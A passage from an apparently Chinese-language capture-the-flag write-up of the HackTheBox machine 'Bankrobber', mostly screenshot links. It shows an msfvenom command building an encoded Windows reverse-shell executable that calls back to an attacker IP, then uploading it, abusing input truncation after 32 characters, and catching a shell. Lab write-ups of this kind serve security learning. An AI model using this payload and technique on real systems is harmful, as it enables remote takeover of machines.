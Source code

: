 ![image-20200927150337146]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927150337146.png)

![image-20200927150424252]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927150424252.png)

现在得知我们推入32个字符后，附加的信息即可推入执行工具位置，从而执行

kali端再生成一个马

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.25 LPORT=4443 -e x86/shikata_ga_nai -f exe -o non_staged.exe
```

上传到靶机

![image-20200927151644014]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927151644014.png)

嗯。好像也不需要知道多少个字符，直接看程序截断利用就行

![image-20200927152120708]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927152120708.png)

在监听获得shell

![image-20200927152156759]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927152156759.png)

![image-20200927152244574]({{ site.url }}/assets/Bankrobber_154.assets/image-20200927152244574.png)